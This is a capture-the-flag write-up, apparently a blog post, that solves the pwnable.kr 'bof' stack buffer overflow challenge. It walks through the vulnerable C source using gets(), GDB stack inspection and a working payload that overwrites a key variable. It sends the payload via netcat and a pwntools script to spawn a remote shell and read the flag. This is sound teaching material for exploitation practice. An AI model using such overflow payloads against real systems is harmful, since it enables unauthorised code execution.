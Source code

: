 ```yaml
---
title: Pwnable CTF - bof
tags:
  - pwnable
  - ctf
date: 2024-01-04
---
```


In this challenge, there's no shell. Instead we download some files and use
[netcat] to connect to a remote host running what is presumably the `bof`
binary. We will likely have to employ a [buffer overflow] to capture the flag.

```
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

Let's take a look at `bof`:
```sh
$ file bof
bof: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
```

Running `bof` locally, we get a prompt and a hint: "overflow me". Entering a random string
results in "Nah...".
```sh
$ nc pwnable.kr 9000
overflow me :
hello
Nah..
```

Let's take a look at the source code provided:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

This program passes `0xdeadbeef` to `func()` as `key`. A buffer is created with
a length of 32. [`gets`] is used to read a string from *stdin* into
`overflowme`. Finally, `key` is compared to `0xcafebabe` and if they are equal,
we are given a shell.

From the man page for `gets()`:

    **gets()** reads a line from *stdin* into the buffer pointed to by *s* until either a terminating newline or **EOF**,
    which it replaces with a null byte ('\0'). No check for buffer overrun is performed (see BUGS below)."

So now we know that `gets` will happily read more bytes than the buffer will
hold. We need to somehow overwrite `key` with the value `0xcafebabe`.

Let's open the binary in [GDB]:
```sh
gdb ./bof
```

If we disassembly `func`, we can see the compare against `0xcafebabe` at `+40`.
```
(gdb) disas func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   %ebp
   0x5655562d <+1>:     mov    %esp,%ebp
   0x5655562f <+3>:     sub    $0x48,%esp
   0x56555632 <+6>:     mov    %gs:0x14,%eax
   0x56555638 <+12>:    mov    %eax,-0xc(%ebp)
   0x5655563b <+15>:    xor    %eax,%eax
   0x5655563d <+17>:    movl   $0x5655578c,(%esp)
   0x56555644 <+24>:    call   0xf7df6880 <puts>
   0x56555649 <+29>:    lea    -0x2c(%ebp),%eax
   0x5655564c <+32>:    mov    %eax,(%esp)
   0x5655564f <+35>:    call   0xf7df5ee0 <gets>
   0x56555654 <+40>:    cmpl   $0xcafebabe,0x8(%ebp)
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    movl   $0x5655579b,(%esp)
   0x56555664 <+56>:    call   0xf7dcbcd0 <system>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    movl   $0x565557a3,(%esp)
   0x56555672 <+70>:    call   0xf7df6880 <puts>
   0x56555677 <+75>:    mov    -0xc(%ebp),%eax
   0x5655567a <+78>:    xor    %gs:0x14,%eax
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0xf7eb4e40 <__stack_chk_fail>
   0x56555688 <+92>:    leave
   0x56555689 <+93>:    ret
```

Let's set a breakpoint there:
```
(gdb) break *func+40
Breakpoint 1 at 0x56555654
```

Let's run it. We know the buffer expects 32 bytes, so let's give it some
sentinel values to find them on the stack.
```
(gdb) run
overflow me :
aaaabbbbccccddddeeeeffffgggghhhh

Breakpoint 1, 0x56555654 in func ()
```

We hit our breakpoint. Let's examine the stack:
```
(gdb) x/24x $esp
0xffffd290:     0xffffd2ac      0x00000020      0x00000000      0xffffd454
0xffffd2a0:     0x00000000      0x00000000      0x01000000      0x61616161
0xffffd2b0:     0x62626262      0x63636363      0x64646464      0x65656565
0xffffd2c0:     0x66666666      0x67676767      0x68686868      0x62f5e700
0xffffd2d0:     0xffffd310      0xf7fbe66c      0xffffd2f8      0x5655569f
0xffffd2e0:     0xdeadbeef      0x00000000      0xf7faa000      0xf7ea283b
```

We can see our input (`0x61..0x68`) starting at `0xffffd2ac` and ending at
`0xffffd2c8`. So we need to overflow the buffer until it overwrites `0xdeadbeef`
at `0xffffd2e0`. That's 52 bytes past the start of our input, or 13 double words
(chunks of 4 bytes). So we need 52 bytes of filler and the value we want to
overwrite, `0xcafebabe`.

To generate the bytes we need, we can use Python. Note that we need reverse the
order of the bytes in `0xcafebabe` because x86 is [little endian]. We need to
use `sys.stdout.buffer.write` instead of `print` because we need the raw bytes
output and not have it interpreted as UTF-8.

```sh
$ python -c "import sys; \
payload = b'\xca\xfe\xba\xbe'[::-1]*14; \
sys.stdout.buffer.write(payload)" \
| od -v -tx
0000000 cafebabe cafebabe cafebabe cafebabe
0000020 cafebabe cafebabe cafebabe cafebabe
0000040 cafebabe cafebabe cafebabe cafebabe
0000060 cafebabe cafebabe
```

Let's try our payload against the target. We need to wrap the Python program in
a sub shell with `cat` in order to keep stdin open. Nothing will be printed at
first, but if hit return once, we'll be in the shell and can execute `ls` to see
what we have access to and finally `cat flag` to get the flag.
```sh
$ (python -c "import sys; \
payload = b'\xca\xfe\xba\xbe'[::-1]*14; \
sys.stdout.buffer.write(payload)" \
; cat) | nc pwnable.kr 9000

ls
bof
bof.c
flag
log
super.pl
cat flag
daddy, I just pwned a buFFer :)
```

In the future, we can use [pwntools] to make our attack easier to write and
execute:
```py
from pwn import *

payload = p32(0xcafebabe)*14
conn = remote("pwnable.kr", 9000)
conn.sendline(payload)
conn.interactive()
```

```sh
$ python bof.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```

[buffer overflow]: https://en.wikipedia.org/wiki/Buffer_overflow
[netcat]: https://en.wikipedia.org/wiki/Netcat
[`gets`]: https://linux.die.net/man/3/gets
[GDB]: https://en.wikipedia.org/wiki/GNU_Debugger
[little endian]: https://en.wikipedia.org/wiki/Endianness
[pwntools]: https://docs.pwntools.com/en/latest/
